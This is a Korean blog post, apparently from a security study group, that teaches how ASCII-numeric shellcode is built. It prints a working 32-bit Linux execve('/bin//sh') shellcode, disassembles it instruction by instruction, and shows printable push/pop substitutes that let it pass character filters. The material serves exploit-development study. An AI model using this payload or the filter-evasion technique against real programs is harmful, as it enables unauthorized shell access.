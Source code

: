 ```yaml
---
layout: post
title: ! "Ascii Numeric ShellCode"
excerpt_separator: <!--more-->
comments : true
tags:
  - Shellcode
  - Ascii
  - t4ngo
---
```


제가 얼마 전에 아주 재밌게 보았던! Ascii ShellCode에 대해 설명하여 볼까 합니다. Ascii-Numeric-ShellCode란 출력 가능한 Ascii 문자들로 이루어진 쉘 코드를 뜻하며 다형성 쉘코드의 한 종류입니다!

출력 가능한 Ascii 문자들로 이루어진 쉘 코드가 무슨 말이냐?

지금부터 저와 함께 알아보시죠! GOGOGO~~!

<!--more-->

먼저, 우리가 흔히 알고 있는 Basic한 32-bit Shell code를 봐 볼까요?

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

보통 우리는 Simple한 ShellCode Exploit을 할 때 보통 위와 같은 쉘 코드를 주로 사용합니다!

좀 더 보기 쉽게 disassemble 해 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

Online Assembler로 간단하게 Disassemble하면 위와 같은 Assembly 코드를 볼 수가 있습니다.

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
```

코드를 보면 위 코드에서 스택에 0을 push합니다. 

```
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```

그런 다음 현재 코드에서 스택에 "/bin//sh(0x68732f2f, 0x6e69622f)"을 push하는 것을 알 수 있죠?

```
d:  89 e3                   mov    ebx,esp
```

다시 코드를 쭈~욱 보면 아래 코드를 통해 스택에 궁극적으로 "/bin//sh"의 포인터를 ebx 레지스터에 넣습니다.

```
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
```

그리고, 0을 edx 레지스터에 넣은 후

```
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
```

ecx 레지스터에 "/bin//sh"이 저장된 곳의 포인터를 ecx 레지스터에 넣어 줍니다! 여기까지 잘 따라오셨나요?

```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

그리고 마지막으로 al 레지스터에 0xb를 넣고 `'int 0x80'` 명령어를 통해 syscall을 수행하여 쨘~ 하고 쉘을 띄워줍니다!

여기까지가 보통 32-bit Shell Code입니다! 그렇다면!!! 드디어! Ascii-Numeric-ShellCode와는 무엇이 다른가?!

먼저, Ascii-Numeric-ShellCode는 위애서 설명했든 출력 가능한, printable한 hex 값들로 이루어진 Shellcode를 뜻합니다.

다시 위의 32-bit Shell Code를 봐 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
`

현재의 hex 값에는 Ascii 코드로 표현하지 못하는 hex 값이 존재합니다! 즉, Ascii table에 없는 hex 값이라 printable하지 못하다는 것이겠죠?

![]({{ site.baseurl }}/images/t4ngo/Ascii-Numeric-ShellCode/Ascii_Numeric_ShellCode_01.PNG)

출력 가능한 Ascii table의 범위는 0x20 ~ 0x7F까지입니다. 즉, 이 범위 안에 해당하는 hex 값들만 Ascii-Numeric-ShellCode로 사용이 가능하다는 뜻이겠죠?

그렇다면, 여러분은 현재의 32-bit ShellCode에서 Ascii의 범위를 벗어난 hex들을 찾으셨나요?

Ascii-Numeric-ShellCode란 바로 이런 Asciiable 하지 않은 hex 코드들을 Asciiable하게 바꿔주어 모든 hex 값이 출력 가능한 Ascii 값을 가진 Shell Code를 말합니다!!

위 코드에서 Asciiable 하지 않은 코드들을 뽑아볼까요?

1. 
```
0:  31 c0                   xor    eax,eax
```

2. 
```
d:  89 e3                   mov    ebx,esp
```

3. 
```
10: 89 e2                   mov    edx,esp
```

4. 
```
13: 89 e1                   mov    ecx,esp
```

5. 
```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

위와 같은 코드 부분들이 모두 Ascii Table의 범위를 벗어났죠? 나쁜 녀석들이에요 ㅠㅠ.

그럼 이 hex 값들을 어떻게 바꿔주냐!! 지금부터 주목해주세요!

```
0:  31 c0                   xor    eax,eax
```

이 코드는

```
0:  6a 77                   push   0x77
2:  58                      pop    eax
3:  34 77                   xor    al,0x77
```

쨘! 이렇게 바꿔 줄 수 있겠죠? 결과적으로 `'xor eax,eax'`가 하는 일은 eax 레지스터에 0을 담는 것이므로 코드를 아래와 같이 바꿔 줄 수 있어요! ㅎㅎ

또한, 그 때마다 Binary의 레지스터 상황을 보고 유연하게 쉘 코딩도 할 수 있죠!

예를 들면, 쉘 코드를 호출하기 직전에 eax 레지스터에 0x01이 들어있었다! 그러면 코드를 `'dec eax'`로 수정해주면 eax 레지스터는 0이 되겠죠? (오옹! >_O)

그 다음! mov 코드들은 어떻게 바꿔주냐! mov도 마찬가지로 push, pop으로 해결이 가능합니다! ㅎㅎ

2번 코드를 push, pop으로 구현하면...

```
0:  54                      push   esp
1:  5b                      pop    ebx
```

위와 같은 코드로 바꿀 수 있겠죠? 스택에 esp를 push하고 ebx로 pop을 해주면서 `'mov ebx, esp'`와 같은 동작을 하게 됩니다!

mov 명령들은 위와 같이 해결해 주면 되고!

```
17: cd 80                   int    0x80
```

다음은, syscall 부분! 사실 이 부분이 제일 핵심이죠! 왜냐? `'int 0x80'`은 대체 할 수 있는 명령어가 거의 없기 때문이죠 ㅠㅠ

그렇기 때문에 앞서 말해드렸던 스택에 이미 존재하는 레지스터 값을 이용하여 syscall을 호출 하여야 하는데요! 

음... 가령 예를 들면 xo 

ecx 레지스터에 0xFFFF 값이 들어있다면 이 값을 활용하여 `'xor ecx, 0x327F'`를 해줘서 `'cd 80'` hex를 만들어 준 뒤 이 값을 활용하여 eip에 넣어주도록 스택의 상황에 맞게 조작하여 주면 됩니다!

사실, 이 부분은 Binary 마다 호출 당시 스택의 상황이나 레지스터의 상황이 다 다르기 때문에 이런식으로 원리를 설명드리는 방법이 최선인 것 같아요 ㅠㅠ

이 외에도 레지스터나 스택에 남아 있는 값들을 활용하여 `'cd 80'`을 만들어 주면 되는데 핵심은 스택에 `'cd 80'`을 만들어 주고 그 값을 활용하여 syscall을 한다는 것만 기억하면 됩니다!

Ascii-Numeric-ShellCode를 만드는 것이 이렇게 해서 이렇게 하면 이렇게 돼! 하고 딱 정의 되어 있지 않고 그때그때 스택의 상황이나 레지스터의 상황을 보며 자신에게 가장 알맞는 코드를 선택하여 쉘 코딩해주면 되기 때문에 대략 이런 원리로 Ascii-Numeric-ShellCode가 만들어 진다는 점만 기억해주시면 될 것 같습니다!

이제 여러분의 레지스터나 스택 상황에 맞게 창의성을 발휘하여 Ascii-Numeric-ShellCode를 만들어 보세요~!!! 화이팅!
